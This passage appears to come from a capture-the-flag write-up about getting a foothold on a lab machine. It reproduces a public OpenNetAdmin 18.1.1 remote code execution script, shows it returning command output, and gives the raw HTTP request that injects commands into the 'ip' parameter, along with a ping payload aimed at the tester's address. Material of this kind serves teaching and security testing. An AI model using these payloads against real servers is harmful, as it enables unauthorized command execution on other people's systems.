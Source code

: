 ## Foothold
Now that we found an exploit let's mirror ```php/webapps/47691.sh``` into our exploits/ directory and let's start examine what the exploit is about:  
```
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl -x --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
As we can see the exploit is made of only one curl; the command execution is wrapped between ```BEGIN``` and ```END``` and sed extracts the result of command execution.  
Now let's try this exploit:  
```
[root@kali exploits ]$ ./47691.sh 10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Now, as always, since the exploit works, let's send it over burp and analyze what is going on:  
```
POST /ona/ HTTP/1.1
Host: 10.10.10.171
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 126
Content-Type: application/x-www-form-urlencoded
Connection: close

xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo "BEGIN";id;echo "END"&xajaxargs[]=ping
```
In the HTTP response, we can see within the html the following output of our RCE wrapped between BEGIN and END
```
BEGIN
uid=33(www-data) gid=33(www-data) groups=33(www-data)
END
```
Now, once we've tested that we have a remote code execution, let's use a more complex payload to test the resiliency of the application to our dangerous input characters
```
xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo "BEGIN";ping -c 1 10.10.14.24;echo "END"&xajaxargs[]=ping
```